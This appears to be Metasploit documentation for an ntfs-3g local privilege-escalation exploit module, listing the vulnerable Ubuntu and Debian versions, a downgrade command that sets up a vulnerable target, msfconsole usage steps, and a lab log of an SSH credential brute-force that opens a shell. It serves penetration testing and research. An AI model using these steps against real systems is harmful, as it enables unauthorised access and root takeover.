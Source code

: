 ## Creating A Testing Environment

  We have to live compile on the host, so `make` and `gcc` are required.  Easiest thing to do is: `apt-get install build-essential`.
  
  As per notes from the original EDB module, if you're in a VM, you should use **at least two CPU cores**.  This was confirmed during testing of this module as well.

This module has been tested against:

  1. Ubuntu 16.04 with ntfs-3g 1:2015.3.14AR.1-1build1
  2. Ubuntu 16.10 with ntfs-3g 1:2016.2.22AR.1-3
  3. Debian Jesse 8 (8.7.1, had to downgrade ntfs-3g to vuln version, and install kernel headers): `apt-get install ntfs-3g=1:2014.2.15AR.2-1+deb8u2 linux-headers-$(uname -r)`

This module was not tested against, but may work against:

  1. Debian 7
  2. Debian 9
  3. Other Debian based systems

## Verification Steps

  1. Start msfconsole
  2. Exploit a box via whatever method
  4. Do: `use exploit/linux/local/ntfs3_priv_esc`
  5. Do: `set session #`
  6. Do: `set verbose true`
  7. Do: `exploit`

## Options

  **WritableDir**

  A folder we can write files to.  Defaults to /tmp

## Scenarios

### Ubuntu 16.04 (ntfs-3g 1:2015.3.14AR.1-1build1)

#### Initial Access

    resource (ntfs3g.rc)> use auxiliary/scanner/ssh/ssh_login
    resource (ntfs3g.rc)> set rhosts 192.168.2.137
    rhosts => 192.168.2.137
    resource (ntfs3g.rc)> set username ubuntu
    username => ubuntu
    resource (ntfs3g.rc)> set password ubuntu
    password => ubuntu
    resource (ntfs3g.rc)> exploit
    [*] SSH - Starting bruteforce
    [+] SSH - Success: 'ubuntu:ubuntu' 'uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare) Linux ubuntu 4.4.0-21-generic #37-Ubuntu SMP Mon Apr 18 18:33:37 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux '
    [!] No active DB -- Credential data will not be saved!
    [*] Command shell session 1 opened (192.168.2.117:40371 -> 192.168.2.137:22) at 2017-02-24 21:33:59 -0500
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed
